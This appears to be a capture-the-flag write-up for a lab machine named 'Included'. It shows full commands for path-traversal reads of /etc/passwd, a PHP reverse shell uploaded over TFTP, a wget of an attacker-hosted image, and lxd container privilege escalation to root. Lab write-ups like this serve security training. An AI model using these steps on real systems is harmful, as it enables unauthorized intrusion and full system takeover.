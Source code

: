 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

![alt text](./img/included.PNG?raw=true)  

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.55 -e tun0 --rate=1000  
![alt text](./img/included01.PNG?raw=true)  

Ok, the url look’s vulnerable to LFI. So let's test it  
![alt text](./img/included02.PNG?raw=true)  
  
![alt text](./img/included03.PNG?raw=true)  

BINGO!

## Exploit  
Let’s use curl to get a clean view of the files  
curl -v http://10.10.10.55/?file=../../../../../../../../../../../../etc/passwd  
![alt text](./img/included04.PNG?raw=true)  

curl -s -v http://10.10.10.55/?file=../../../../../../../../../../../../../../etc/issue  
![alt text](./img/included05.PNG?raw=true)  

curl -s -v http://10.10.10.55/?file=../../../../../../../../../../../../../../proc/version  
![alt text](./img/included06.PNG?raw=true)  

In the passwd we could see a user TFTP, maybe this service is active. Let’s try to connect to it and put a file in the server  
![alt text](./img/included07.PNG?raw=true)  

Perfect, create a php reverse shell page and upload it to the target.  
You can search the web for one or use the /usr/share/webshells/php/php-reverse-shell.php file, don’t forget to change de $ip and $port to yours

After upload it set up a netcat listener in the port you put in the file and let’s access the uploaded file.  
In the passwd we can see that the path of the tftp user is /var/lib/tftpboot, so the file is in this folder  
http://10.10.10.55/?file=../../../../../../../../../../../var/lib/tftpboot/shell-eldruin.php  
![alt text](./img/included08.PNG?raw=true)  

HABEMUS SHELL \o/

## Privesc  
Run this command to get a better shell -> python3 -c 'import pty;pty.spawn("/bin/bash")'

We are logged as www-data and we don’t have permission to read the user.txt (inside mike’s folder). So let’s try to privesc  
![alt text](./img/included09.PNG?raw=true)  

Since this is a continuation of the PATHFINDER machine, let’s try to log as mike with the password found on that machine  
![alt text](./img/included10.PNG?raw=true)  

Now we can get back to mike’s home directory and read the flag. Time to root…..

Mike is in the lxd group, so we can try to use the lxd-alpine to get root  
![alt text](./img/included11.PNG?raw=true)  

Just execute the commands in the followed order and you will get root:  
For a better explanation check this [link](https://www.hackingarticles.in/lxd-privilege-escalation/)  
> In your machine:  
git clone  https://github.com/saghul/lxd-alpine-builder.git  
cd lxd-alpine-builder  
./build-alpine  
check the name of the created file  
sudo python3 -m http.server 80  

> On target machine  
cd /tmp  
wget http://YOUR_IP/CREATED_ALPINE_FILE  
lxc image import ./CREATED_ALPINE_FILE --alias myimage  
lxc image list  
lxc init myimage ignite -c security.privileged=true  
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true  
lxc start ignite  
lxc exec ignite /bin/sh  
id  

![alt text](./img/included12.PNG?raw=true)  
  
It’s a little ugly, but is a root shell

To catch the flag just go to /mnt/root/root  
![alt text](./img/included13.PNG?raw=true)  

## Discoveries
As you could see there is a login.sql and inside we have another credential  
![alt text](./img/included14.PNG?raw=true)  

